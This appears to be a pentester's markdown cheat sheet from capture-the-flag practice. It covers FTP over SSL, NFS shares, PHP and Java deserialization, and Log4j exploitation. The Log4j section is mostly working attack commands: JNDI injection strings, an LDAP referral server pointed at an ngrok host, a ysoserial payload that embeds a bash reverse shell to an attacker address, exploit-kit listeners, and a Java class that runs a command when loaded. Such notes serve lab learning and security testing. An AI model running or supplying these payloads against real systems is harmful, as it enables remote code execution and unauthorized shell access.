 ## FTP

- FTP SSL? `openssl s_client -connect <ip>:<port> -starttls ftp`
- lftp 
```
lftp
set ftp:ssl-force true
set ssl:verify-certificate no
connect <ip>
username
```


## NFS

- showmount -e `ip`
- mount `10.10.10.10:/share`

## Serializations

### PHP

[SnoopySec]
(https://snoopysecurity.github.io/web-application-security/2021/01/08/02_php_object_injection_exploitation-notes.html)
- Look for `unserialize()`
- Adding Tilde(~) when requesting PHP might show the source code
- look for _destruct() or _wakeup() [Owasp](https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection)   

### Java

- serialized object often is encoded with these as the beginning characters `ac ed` for hex or `rO0` for base64
- look for `readObject()` method used to read and deserialize data from an `InputStream`
## Log4j

- `java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "https://c6c9-202-89-151-235.ngrok.io:8888/log4jrce"`
- `${jndi:ldap://10.10.14.2:1337/a}`
- [ysoserial-modified](https://github.com/pimps/ysoserial-modified)
   - `java -jar ysoserial-modified.jar CommonsCollections5 bash 'bash -i >& /dev/tcp/10.10.14.6/9002 0>&1' > ~/htb/logforge/ysoserial.ser` **_Creates a serialized payload_**
- [JNDI-exploit-kit](https://github.com/pimps/JNDI-Exploit-Kit)
   - `java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 10.10.14.6:1389 -P ~/htb/logforge/ysoserial.ser` **_Listens to port 1389 then sends ysoserial.ser_**
   - after running ysoserial-modified we will get links for different versions for jdk to try out. `${jndi:ldap://10.10.14.6:1389/vojbuj}`
- `${jndi:ldap://10.10.14.2:1337/${sys:java.class.path} or ${java:version} or ${java:os}}` **_or can be replaced with .... to do nested thingy_**
- Using JRMPListener to send CommonsCollections `java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1337 CommonsCollections5 "**_CMD_**"` **_this will set up a listener listening on port 1337. send your payload `${jndi:rmi://10.10.10.10:1337/a}` and should receive something.
```Java
public class Log4jRCE {
    static {
        try {
            String [] cmd={"touch", "/tmp/TEST"};
            java.lang.Runtime.getRuntime().exec(cmd).waitFor();
        }catch (Exception e){
            e.printStackTrace();
        }
    }
```